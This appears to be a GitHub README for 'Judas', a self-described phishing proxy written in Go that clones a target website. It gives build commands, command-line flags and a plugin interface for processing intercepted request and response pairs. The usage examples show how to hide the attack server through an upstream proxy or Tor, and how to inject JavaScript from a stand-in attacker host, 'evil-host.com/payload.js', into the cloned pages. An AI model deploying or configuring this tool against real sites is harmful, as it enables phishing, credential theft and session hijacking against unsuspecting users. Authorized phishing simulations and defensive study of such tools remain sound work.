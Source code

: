 Judas
=====
Judas is a phishing proxy.
It can clone a website passed to it using command line flags.

Building
--------
To build Judas, first, get the dependencies:
 ```
 go get golang.org/x/net/proxy
 go get github.com/PuerkitoBio/goquery
 go build -o judas *.go
 ```

 Next, build the logging plugin if you want to see responses on the console.
```
go build -buildmode=plugin -o loggingplugin.so bundled/loggingplugin.go
```

To add other plugins, simply place the .so files into the same directory as the judas executable.

Usage
-----
The target ```--target``` flag is required.
By default, Judas requires a path to a SSL certificate (```--cert```) and a SSL private key (```--private-key```).
If you want to listen using HTTP, pass the ```--insecure``` flag.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key
```

```
./judas --target https://target-url.com --insecure
```

It can optionally use an upstream proxy with the ```--proxy``` argument to proxy Tor websites or hide the attack server from the target.

Example:
```
./judas --target https://torwebsite.onion --cert server.crt --private-key server.key --proxy localhost:9150
```

By default, Judas listens on localhost:8080.
To change this, use the ```--address``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --address=0.0.0.0:8080
```

Judas can also inject custom JavaScript into requests by passing a URL to a JS file with the ```--inject-js``` argument.

Example:
```
./judas --target https://target-url.com --cert server.crt --private-key server.key --inject-js https://evil-host.com/payload.js
```

Custom plugins
--------------
To create your own plugin, simply create a Go plugin using the standard library plugin package (https://golang.org/pkg/plugin/).

Judas looks for the following symbols:
```
var Plugin plugins.Plugin
```

Your plugins must implement the Plugin interface found in github.com/joncooperworks/judas/plugins.

```
// Plugin contains functions and variables that Judas will be looking for in your plugin.
// Plugins will be loaded from any .so file in the same directory as the judas executable.
type Plugin interface {
	// Name of the plugin.
	Name() string

	// Initialize is where you should do your plugin's setup, like defining command line flags.
	// You are allowed to return a PluginArguments of arguments that will be passed to your ProcessTransactions function.
	Initialize() (PluginArguments, error)

	// ProcessTransactions takes a chan that produces request - response pair and does something.
	// Judas plugins should implement this function to process request - response pairs as they are generated.
	// Requests and responses will be passed by value, allowing each plugin to run in its own goroutine.
	ProcessTransactions(<-chan HTTPTransaction, PluginArguments)
}
```